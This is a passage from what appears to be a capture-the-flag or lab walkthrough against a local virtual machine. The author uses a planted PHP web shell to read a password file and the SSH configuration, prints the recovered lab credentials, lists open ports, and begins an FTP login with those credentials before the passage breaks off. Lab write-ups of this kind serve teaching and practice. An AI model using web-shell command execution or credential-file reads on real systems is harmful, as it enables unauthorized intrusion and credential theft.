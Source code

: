 
/home/LOOKATME/password: ASCII text

```

So let's see what our password is.

```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=cat%20/home/LOOKATME/password



lmezard:G!@M6f4Eatau{sF"
```

Yes, we got our password. Let's see where we can use it.

Remember:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

We obtained these at the beginning of the project.

When we tried our username and password over SSH, we noticed it didn't work, but it works over FTP.

Also

```
view-source:https://192.168.193.128/forum/templates_c/webshell.php?cmd=cat%20/etc/ssh/sshd_config`


[***]

AllowUsers ft_root zaz thor laurie

[***]

```
When we examine with **`cat /etc/ssh/sshd_config`**, we can see that only users **`ft_root zaz thor laurie`** can connect via SSH.

Anyway, let's connect to our server via FTP.

```
lmezard:G!@M6f4Eatau{sF"
```

```
PS C:\Users\Admin> ftp 192.168.193.128
Connected to 192.168.193.128.
220 Welcome on this server
200 Always in UTF8 mode.
User (192.168.193.128:(none)): lmezard
331 Please specify the password.
Password:
